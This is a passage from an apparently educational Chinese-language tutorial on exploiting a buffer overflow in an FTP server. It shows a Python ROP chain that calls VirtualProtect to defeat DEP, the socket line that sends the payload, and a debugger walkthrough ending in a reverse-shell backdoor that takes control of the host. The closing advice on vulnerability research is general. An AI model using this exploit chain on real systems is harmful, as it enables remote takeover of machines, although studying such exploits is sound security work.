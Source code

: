     rop = struct.pack ('<L',0x7c349614)   # ret
    rop += struct.pack('<L',0x7c34728e)   # pop eax
    rop += struct.pack('<L',0xfffffcdf)   #
    rop += struct.pack('<L',0x7c379c10)   # add ebp,eax
    rop += struct.pack('<L',0x7c34728e)   # pop eax
    rop += struct.pack('<L',0xfffffdff)   # value = 0x201
    rop += struct.pack('<L',0x7c353c73)   # neg eax
    rop += struct.pack('<L',0x7c34373a)   # pop ebx
    rop += struct.pack('<L',0xffffffff)   #
    rop += struct.pack('<L',0x7c345255)   # inc ebx
    rop += struct.pack('<L',0x7c352174)   # add ebx,eax
    rop += struct.pack('<L',0x7c344efe)   # pop edx
    rop += struct.pack('<L',0xffffffc0)   # 0x40h
    rop += struct.pack('<L',0x7c351eb1)   # neg edx
    rop += struct.pack('<L',0x7c36ba51)   # pop ecx
    rop += struct.pack('<L',0x7c38f2f4)   # &writetable
    rop += struct.pack('<L',0x7c34a490)   # pop edi
    rop += struct.pack('<L',0x7c346c0b)   # ret (rop nop)
    rop += struct.pack('<L',0x7c352dda)   # pop esi
    rop += struct.pack('<L',0x7c3415a2)   # jmp [eax]
    rop += struct.pack('<L',0x7c34d060)   # pop eax
    rop += struct.pack('<L',0x7c37a151)   # ptr to virtualProtect()
    rop += struct.pack('<L',0x625011ed)   # jmp esp 原始EIP地址
    
    sock.send(command + buffer + rop + nops + buf)
    sock.close()
    

此时我们回到被攻击主机，并通过`x64DBG`附加调试FTP服务程序，然后手动在第一条链上下断点`0x7c349614`然后运行攻击脚本，观察堆栈的变化。

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085122349-1524274109.png)

如下图就是运行后的堆栈，你可以清晰的看到堆栈，栈顶的`41414141`就是我们填充的合法指令，而接着下方就是我们构建的ROP链，当执行完这条链的时候此时的当前的堆栈就会被赋予可执行权限；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085130674-1956409580.png)

最后调用`0x625011ed`也就是`jmp esp`跳转到下方连续的`0x90`NOP垫片位置，此时当垫片被执行完毕，就会顺利的执行我们所布置好的`ShellCode`反弹后门。

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085138296-2095036619.png)

继续跟随，Nop垫片结束后则滑向ShellCode后门代码片段，则此时后门就被顺利运行了，如下图所示；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085145614-153302573.png)

通过按下F9让程序直接运行起来，此时回到攻击主机，则此时会看到我们已经拿到了主机的完整控制权；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085152937-215232032.png)

至此笔者已经展示了漏洞挖掘的具体实现细节，在真正的漏洞挖掘场景中其思路与上述案例完全一致，本案例也仅仅只是让读者能够理解漏洞的产生，以及如何挖掘，并以此揭秘读者心中的疑惑。 同时在实际的漏洞挖掘中，读者也需要遵循一些基本的原则，例如：

*   掌握相关技术：漏洞挖掘需要掌握相关的技术，例如程序分析、二进制分析、网络协议等等，这些技术能够帮助你识别可能存在的漏洞。
*   熟悉目标：了解目标系统的结构、代码库、协议等信息，有助于快速定位漏洞。
*   使用工具：使用专门的工具可以提高效率和准确性，例如漏洞扫描器、反汇编器、调试器等等。
*   坚持实践：漏洞挖掘需要不断地实践和尝试，通过不断的学习和实践，才能提高自己的技能和能力。
